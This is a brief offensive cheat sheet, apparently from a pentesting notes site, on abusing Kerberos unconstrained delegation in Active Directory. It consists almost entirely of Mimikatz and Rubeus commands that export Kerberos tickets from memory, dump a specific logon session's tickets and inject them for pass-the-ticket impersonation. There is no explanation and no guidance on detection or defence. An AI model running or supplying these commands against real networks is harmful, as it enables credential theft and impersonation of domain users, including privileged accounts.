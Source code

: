 ```yaml
---
coverY: 0
---
```


# 🟢 Unconstrained Delegation

### Unconstrained Delegation with MimiKatz

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

### Unconstrained Delegation with Rubeus

```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:RFSSCC[...]
```

